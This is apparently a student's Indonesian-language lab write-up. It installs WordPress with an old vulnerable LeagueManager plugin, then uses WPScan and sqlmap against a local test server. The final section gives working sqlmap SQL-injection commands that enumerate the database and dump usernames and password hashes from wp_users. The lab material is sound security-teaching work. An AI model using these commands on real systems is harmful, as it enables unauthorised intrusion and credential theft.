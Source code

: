 # Tugas 2

## Instalasi Wordpress
1. Download Wordpress dari laman [Wordpress](https://wordpress.org/)  
![download wordpress](download_wordpress.PNG)
2. Ekstrak file wordpress yang sudah kita download lalu letakkan di folder root web di komputer kita. Contoh apabila menggunakan apache di windows folder root terdapat di folder htdocs dan linux terdapat di folder /var/www/html.
3. Siapkan database mysql untuk wordpress kita. Contohnya kita buat database dan kita beri nama wordpress
![database](database.PNG)
3. Akses wordpress yang sudah kita letakkan di folder root web dengan browser
4. Saat pertama kali, kita akan diminta untuk meilih bahasa
![memilih bahasa](1_pilih_bahasa.PNG)
5. Setelah memilih bahasa kita akan diminta konfigurasi database
![setting database](3_setting_database_wordpress.PNG)
6. Selanjutnya kita akan diminta untuk mengisi detil website kita
![detail web](4_isi_data_situs.PNG)
7. Instalasi selesai
![instalasi selesai](5_selesai_installasi_wordpress.PNG)
8. Setelah instalasi selesai apabila kita ingin masuk ke dashboard admin, kita bisa mengakses ke endpoint wp-login. contoh "http://alamatwordpress.com/wp-login.php"
![login](wp-login.PNG)
9. Apabila berhasil login kita akan masuk ke dashboard wordpress
![dashboard wordpress](7_dashboard.PNG)

## Instalasi Plugin
### Instalasi LeagueManager
1. Cari leaguemanager.
![cari leaguemanager](8_pencarian_plugin_leaguemanager.PNG)
2. Pilih leaguemanager dan akan keluar popup dan pilih **Laman Plugin WordPress.org**
![leaguemanager popup](9_leaguemanager_popup.PNG)
3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.
![kunjungi dashboard](10_dashboard_league_manager.png)
4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.
![pilih versi](11_select_version_leaguemanager.png)
5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.
![upload plugin](12_upload_league_manager.PNG)
7. Lalu aktifkan plugin.
![aktifkan plugin](13_aktifkan_league_manager.PNG)
8. Instalasi plugin akan dimulai.
![instalasi plugin](14_instalasi_league_manager.PNG)

### Instalasi WordPress Video Player
1. Cari video player.
![cari videoplayer](15_pencarian_video_player.PNG)
2. Pilih WordPress Video Player dan akan keluar popup dan pilih **Laman Plugin WordPress.org**
![player popup](16_video_player_popup.PNG)
3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.
![kunjungi dashboard](17_dashboard_video_player.png)
4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.
![pilih versi](18_select_version_video_player.PNG)
5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.
![upload plugin](19_unggah_plugin_player.PNG)
7. Lalu aktifkan plugin.
![aktifkan plugin](20_aktifkan_plugin_player.PNG)
8. Instalasi plugin akan dimulai.
![instalasi plugin](21_instalasi_player.PNG)

Apabila plugin telah terpasang tampilan laman plugin akan seperti dibawah ini.
![plugin terpasang](22_plugin_berhasil_diinstal.png)

## Instalasi Tools Penetrasi
### Instalasi WPSCAN  
1. Pastikan komputer kita sudah terinstall git. Apabila belum kita dapat menginstalnya dengan mengetikkan `sudo apt-get install git`
2. Install dependency dengan mengetikkan `sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev`
![install-libcurl](install-libcurl14.png)  
3. Clone repo wpscan dengan mengetikkan `git clone https://github.com/wpscanteam/wpscan.git`
![clone-wpscan](clone-wpscan.png)
4. Install ruby dengan mengetikkan `sudo apt-get intsall ruby` tapi, karena saya menggunakan Ubuntu 16.04 bisa cukup dengan mengetikkan `sudo apt install ruby`  
![install-ruby](install-ruby.png)  
5. Masukke folder wpscan yang sudah kita clone
6. Install bundler dengan mengetikkan `sudo gem install bundler && bundle install --without test`
![install-gem](install-gem.png)  
### Instalasi SQLMAP
Ada 2 cara untuk menginstall sqlmap
1. clone github dari sqlmap dengan mengetikkan `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev` **sqlmap-dev** disini, saya ingin clone folder dari github tersebut ke folder bernama **sqlmap-dev**  
![download-sqlmap](download-sqlmap.png)  
Setelah tahap clone, pindah direktori pada folder sqlmap anda, lalu bisa dijalankan dengan mengetikkan `python sqlmap.py`  
2. Install langsung dengan mengetikkan `sudo apt-get install sqlmap`  
![install-sqlmap](install-sqlmap.png)  

## Uji Penetrasi
### Scanning menggunakan wpscan
1. Scanning
![scanning](scanning.png)
2. Hasil Scanning
![hasil scanning](hasil_scanning.png)
## Exploit menggunakan sqlmap
### LeagueManager
Berdasarkan tautan https://www.exploit-db.com/exploits/37182/ , Pada plugin leaguemanager versi 3.9.11 terdapat bug, salah satunya pada parameter league_id yang tidak diamankan sehingga dimungkinkan sql injection.
![hasil eksploit](sqlmap_leagumemanager.png)
1. Setelah diketahui terdapat variabel yang bisa dieksploit, kita bisa menggunakan sql map untuk database listing. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql --dbs`
![hasil dbs listing](hasil_list_dbs.png)
2. Selanjutnya kita dapat melakukan table listing. Kita coba list semua table pada database wordpress karena kemungkinan database situs disimpan disitu. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress --tables`
![hasil tables listing](hasil_list_tables.png)
3. Selanjutnya kita akan melakukan listing ke tabel wp_users karena disitu kemungkinan berisi login informasi. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users --columns`
![hasil list columns](hasil_list_columns.png)
4. Dump isi table wp_users. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users -C user_login,user_pass --dump`
![hasil dump users](hasil_dump_users.png)
Kita telah mengetahui daftar username dan password hanya saja password di-hash.
